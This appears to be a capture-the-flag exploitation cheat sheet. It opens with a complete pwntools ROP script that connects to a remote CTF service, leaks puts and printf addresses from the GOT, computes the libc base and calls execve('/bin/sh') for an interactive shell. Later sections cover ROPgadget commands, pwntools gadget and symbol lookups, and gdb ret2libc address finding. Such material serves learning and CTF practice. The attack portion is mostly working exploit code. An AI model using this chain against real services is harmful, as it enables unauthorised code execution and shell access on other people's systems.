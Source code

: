 ### Sample ROP script for leaking puts or other function
```python
from pwn import *

context.clear(arch="amd64")
context.log_level = "info"

REMOTE = True

binary = "tama"

if REMOTE: libc = ELF("/home/user/ctf/libc-database/libs/libc6_2.31-0ubuntu9.9_amd64/libc.so.6")
else: libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

elf = ELF(binary)
rop = ROP(elf)

if REMOTE: p = remote("motherload.td.org.uit.no", 8009)
else: p = process(elf.path)


def get_libc_address(libc_symbol):
    rop = ROP(elf)
    
    padding = b"A"*40
    rop.call("puts", [elf.got[libc_symbol]]) # puts(elf.got[libc_symbol])
    rop.call("main") # main

    p.recvuntil(b">> ")
    p.sendline(b"2")
    p.recvuntil(b">> ")

    p.sendline(padding + rop.chain())
    p.recvline();p.recvline();p.recvline()

    leak = p.recvline().strip(b"\n")
    leak = u64(leak.ljust(8,b"\x00"))

    log.info(f"Leaked {libc_symbol} address: {hex(leak)}")
    return leak


libc_puts_leak = get_libc_address("puts")
libc_printf_leak = get_libc_address("printf")

libc.address = libc_puts_leak - libc.symbols["puts"]
log.info("Libc base address: " + hex(libc.address))


pause()

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")


rop = ROP([elf, libc])

padding = b"A"*40

## WITH SYSTEM
#rop.call("puts", [next(libc.search(b"/bin/sh"))])
#rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh"))])

binsh = next(libc.search(b"/bin/sh"))
rop.execve(binsh, 0, 0)

p.sendline(padding + rop.chain())

p.interactive()
```

### Finding libc version
```c
./find puts 420 printf c90
ubuntu-glibc (libc6_2.31-0ubuntu9.9_amd64)
```


### ROPgadget
https://github.com/JonathanSalwan/ROPgadget
```c
// Finding ret
ROPgadget --binary program --opcode c3

// To find pop rdi; ret gadget
ROPgadget --binary leak_me --only "pop|rdi|ret"

// To find every gadget
ROPgadget --binary leak_me --ropchain

// Finding /bin/sh string
ROPgadget --binary leak_me --string  "/bin/sh"
```

### Finding Gadgets with pwntools
#### GOT
```python
elf = ELF("./BINARY")

# Finding puts got address
putsGOT = elf.got["puts"]
```
#### PLT
```python
elf = ELF("./BINARY")
rop = ROP("./BINARY")

# Finding puts plt address
putsPLT = elf.plt["puts"]

# Finding pop rdi; ret gadget
poprdiret = rop.find_gadget(["pop rdi", "ret"])[0]

# Finding pop rdi gadget
poprdi = rop.find_gadget(["pop rdi"])[0]
```

#### Address of segments (.data, .text, ...)
```python
elf.address + elf.get_section_by_name(".data").header.sh_addr
```

#### Finding function address pwntools
```python
main = elf.symbols["main"]
```

#### Padding binary data
```python
leak = p.recvline().strip(b"\n")
leak = u64(leak.ljust(8,b"\x00"))
```

#### Unpacking binary data
```python
leak = u64(p.recvline().strip(b"\n"))
```

#### Finding strings in libc pwntools
```python
libc = ELF("libc.so.6")
libc_binsh = next(libc.search(b"/bin/sh"))
```

### Ret2Libc
https://rehex.ninja/posts/identifying-libc/
```shell
// Find libc base location
(gdb) info proc mapping
0xb7e97000

// Find system() from libc
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

// Find exit() from libc
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>

// Find "/bin/sh" string in libc
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
11f3bf /bin/sh

// Address of "/bin/sh"
0xb7e97000 + 0x11f3bf
```
